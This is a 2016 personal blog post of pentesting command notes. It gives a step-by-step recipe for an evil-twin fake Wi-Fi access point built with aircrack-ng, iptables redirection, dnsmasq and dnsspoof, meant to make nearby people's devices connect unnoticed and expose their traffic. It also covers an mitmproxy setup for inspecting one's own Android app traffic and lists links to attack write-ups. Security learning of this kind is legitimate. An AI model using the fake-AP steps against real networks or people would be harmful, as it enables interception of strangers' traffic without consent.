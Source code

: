 Title: Hacking
Date: 2016-01-18 23:00
Category: Linux
Tags: hacking, kali, security, android, mitm, linux
Slug: hacking
Authors: Romain Pellerin
Summary: A handful of useful commands about hacking

This brief article solely contains a few lines of commands, to perform pentesting or network monitoring. It's basically something I might use in the future on my networks or apps, so I'm writing it down as a reminder. I thought it may help other people that's why I decided to put it online. Of course the preferred operating system is [Kali](https://www.kali.org/) (or any Debian-based distro).

**WARNING: only for use on your own networks and devices, the law strictly forbids it otherwise.**

# Fake AP (access point)

This technique is about creating a fake access point, similar to one already existing, so that people's computers will try to connect to your fake AP automatically, without them noticing.

1. Deactivate any firewall first
2. Get super user rights

        :::bash
        sudo su

3. Install some required packages if not already present

        :::bash
        aptitude install dnsmasq aircrack-ng

4. List the existing network interfaces and turn one of them into monitor mode

        :::bash
        airmon-ng
        airmon-ng start wlan0 # wlan0 is usually Wifi

5. Start monitoring available networks around, and make a quick test

        :::bash
        airodump-ng mon0
        aireplay-ng --test mon0 # Test

6. Choose one network and fake it

        :::bash
        airbase-ng --essid 'HG655D-1BFF19' -c 7 -W 1 -Z 2 -v mon0 # Fake WPA AP

7. Enable packet forwarding

        :::bash
        echo 1 > /proc/sys/net/ipv4/ip_forward
        iptables -t nat -A PREROUTING -p tcp --destination-port 80 -j REDIRECT --to-port 8080
        iptables -t nat -A PREROUTING -p tcp --destination-port 443 -j REDIRECT --to-port 8080

8. Write what follows in `/etc/dnsmasq.conf`:

        :::text
        interface=at0
        dhcp-range=192.168.0.50,192.168.0.150,12h

9. Do some other things for which I can't recall the usefulness right now (but I promise to update the article as soon as I do):

        :::bash
        ifconfig at0 192.168.0.1 up
        dnsmasq # pkill dnsmasq if needed

10. Write what follows in `/tmp/tests.conf` (`<tab>` means you have to hit the tab key):

        :::bash
        192.168.0.1<tab>*

11. Run `dnsspoof`:

        :::bash
        dnsspoof -i wlan0 -f /tmp/tests.conf

12. Finally, start a webserver (Apache or using Python, or whatever)

        :::bash
        python3 -m http.server 8080


And you're good! All the clear traffic will pop up right in front of your eyes. To deal with HTTPS connections, have a look at [SSLstrip](http://www.thoughtcrime.org/software/sslstrip/).

Encountering problems with DNSspoof? [Have a look there.](https://forums.hak5.org/index.php?/topic/29166-dnsspoof-problem/)

[More information about faking APs.](http://www.backtrack-linux.org/forums/showthread.php?t=61240)

[Another interesting tutorial ("Kali Linux Evil Wireless Access Point").](https://www.offensive-security.com/kali-linux/kali-linux-evil-wireless-access-point/)

# MITM

This is a commonly used technique to "put yourself" between a target user and an access point, in order to see all the traffic this user might send and receive.

## MITM on Android

On Android, it has the advantage of allowing you to monitor your outcoming traffic, which is useful when debugging your own apps.

1. Grant yourself super user rights and enable packet forwarding on the right interface (here `eth0` which is the Ethernet connection):

        :::bash
        sudo su
        sysctl -w net.ipv4.ip_forward=1
        iptables -t nat -A PREROUTING -i eth0 -p tcp --dport 80 -j REDIRECT --to-port 8080
        iptables -t nat -A PREROUTING -i eth0 -p tcp --dport 443 -j REDIRECT --to-port 8080

3. Install the required dependencies and mitmproxy:

        :::bash
        apt-get install python-pip python-dev libffi-dev libssl-dev libxml2-dev libxslt1-dev libjpeg8-dev zlib1g-dev
        easy_install mitmproxy

    You can as well [download mitmproxy and install it manually](http://docs.mitmproxy.org/en/stable/install.html#installation-on-ubuntu).


4. Run it:

        :::bash
        mitmproxy -T --no-upstream-cert --host [-p 8080] # -p is optional as 8080 is the default port

    The argument `-T` is for *transparent*. If you don't go for transparent, then the 3 lines about packet forwarding (point 1.) are useless (or maybe not, I can't remember).

5. On your Android device:
    1. Open the current Wifi settings (long-press on the connected network).
        * If you decided to do transparent proxying (see above), set proxy to your computer's IP and port 8080, like: `192.168.1.2:8080`
        * If you decided not to do transparent proxying (see above), don't set the proxy and instead set the IP to be static rather than using DHCP. Then write your computer's IP as the gateway.
    2. Go to the website [mitm.it](mitm.it) and click on the Android icon to install the certificate. If this doesn't work (website unreachable), push the certificate manually from your computer (run the following command from your computer):

            ::bash
            adb push ~/.mitmproxy/mitmproxy-ca-cert.cer /sdcard/Download

Then you'll see the traffic in your terminal going through!

This part has been inspired from [this article](https://medium.com/@rotxed/how-to-debug-http-s-traffic-on-android-7fbe5d2a34).

# Other tools

- [mitmAP - A python program, to create a fake AP, and sniff data](https://github.com/xdavidhu/mitmAP)

# Other related topics

- [How to: Reset user password in Windows 7/8/8.1](http://www.gvrachliotis.net/2013/10/how-to-reset-user-password-in-windows.html)
- [Les dénies de services](https://www.nolimitsecu.fr/les-denis-de-service/)
- [Wifi ouvert – Attention aux faux hotspot ! (+ une démo avec un module Arduino)](http://korben.info/wifi-ouvert-attention-aux-faux-hotspot-demo-module-arduino.html)
- [How I Cracked a Keylogger and Ended Up in Someone's Inbox](https://www.trustwave.com/Resources/SpiderLabs-Blog/How-I-Cracked-a-Keylogger-and-Ended-Up-in-Someone-s-Inbox/)
- [Stalking your Facebook friends on Tinder](https://defaultnamehere.tumblr.com/post/147747146865/stalking-your-facebook-friends-on-tinder)
- [Professionally Evil: This is NOT the Wireless Access Point You are Looking For](https://blog.secureideas.com/2013/05/professionally-evil-this-is-not.html)
- [Phreaklets: Cracking WPA2 Enterprise wireless networks with FreeRADIUS WPE, hostapd and asleap & John the Ripper](http://phreaklets.blogspot.kr/2013/06/cracking-wireless-networks-protected.html?m=1)
- [TP Mobilité et réseaux sans fil : réseau sans fil sécurisé et monitoré + mobilité IPv6](http://www.guiguishow.info/2016/10/12/tp-mobilite-et-reseaux-sans-fil-reseau-sans-fil-securise-et-monitore-mobilite-ipv6/)
- [Learn from your attackers – SSH HoneyPot](https://www.robertputt.co.uk/2016/11/28/learn-from-your-attackers-ssh-honeypot/)
- [Alexsey’s TTPs](https://medium.com/@chrismcnab/alexseys-ttps-1204d9050551)
